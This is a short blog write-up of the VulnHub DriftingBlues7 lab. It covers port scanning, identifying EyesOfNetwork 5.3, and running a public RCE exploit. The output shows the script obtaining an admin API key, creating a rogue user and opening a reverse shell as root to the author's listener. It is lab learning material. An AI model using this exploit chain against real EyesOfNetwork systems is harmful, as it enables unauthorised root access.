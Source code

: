 ```yaml
---
layout: post
title:  "Vulnhub: DriftingBlues7"
date:   2021-05-05 20:00:00 +1100
category: hacking
---
```


## DriftingBlues7
Since I couldn't get any more of the SunCSR boxes to run and there's nothing new on THM, I took a shot at [DriftingBlues7](https://www.vulnhub.com/entry/driftingblues-7,680/) on VulnHub. It says it is easy and they weren't kidding; it took me 10 minutes.

## Ports
Lots:

PORT     STATE SERVICE        
22/tcp   open  ssh            
66/tcp   open  sqlnet         
80/tcp   open  http           
111/tcp  open  rpcbind        
443/tcp  open  https          
2403/tcp open  taskmaster2000 
3306/tcp open  mysql          
8086/tcp open  d-s-n          

When I run the detail scan, port 66 is actually a python webserver so I go poke around there; nothing interesting. I check 80/443 and look at the certificate; not interesting. The frontpage is something called *EyesOfNetwork*. Checking searchsploit:

{% highlight shell %}
EyesOfNetwork (EON) 5.0 - Remote Code Execution                                         
EyesOfNetwork (EON) 5.0 - SQL Injection                                                 
EyesOfNetwork (EON) 5.1 - SQL Injection                                                 
EyesOfNetwork - AutoDiscovery Target Command Execution (Metasploit)                     
EyesOfNetwork 5.1 - Authenticated Remote Command Execution                               
EyesOfNetwork 5.3 - File Upload Remote Code Execution                                   
EyesOfNetwork 5.3 - LFI                                                                 
EyesOfNetwork 5.3 - RCE & PrivEsc                                                       
EyesOfNetwork 5.3 - Remote Code Execution                                               
{% endhighlight %}

Juicy, but we need a version. I try a dirsearch and get (amongst other things) README.md, which says:

>Eyes Of Network web interface 5.3

Okay, so that answers that. I grab the 'RCE' exploit shown above, it says txt but it's actually a python3 script.

## Exploit

{% highlight shell %}
──(root💀kali)-[/opt/vulnhub/driftingblues7]
└─# python3 exploit.py https://192.168.1.218 -ip 192.168.1.210 -port 1234                                                          2 ⨯
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                  |
+-----------------------------------------------------------------------------+

[*] EyesOfNetwork login page found
[*] EyesOfNetwork API page found. API version: 2.4.2
[+] Admin user key obtained: 770af9aeda61b3a6ec36f619d5c84b5fd1526b2a368f339d9fd8b5b7c1a611f4
[+] New user h4ker successfully created. ID:2
[+] Successfully authenticated
[+] Discovery job successfully created with ID: 1&amp;review=1" id="completemsg" style="display: none;">
<div class="roundedcorner_success_box">
<div class="roundedcorner_success_top"><div></div></div>
<div class="roundedcorner_success_content">
              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              </div>
<div class="roundedcorner_success_bottom"><div></div></div>
</div></a>
[*]  Spawning netcat listener: 
listening on [192.168.1.210] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.218] 47190
sh: no job control in this shell
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
driftingblues.localdomain
Wed May  5 05:57:48 EDT 2021
{% endhighlight %}

Wow. 
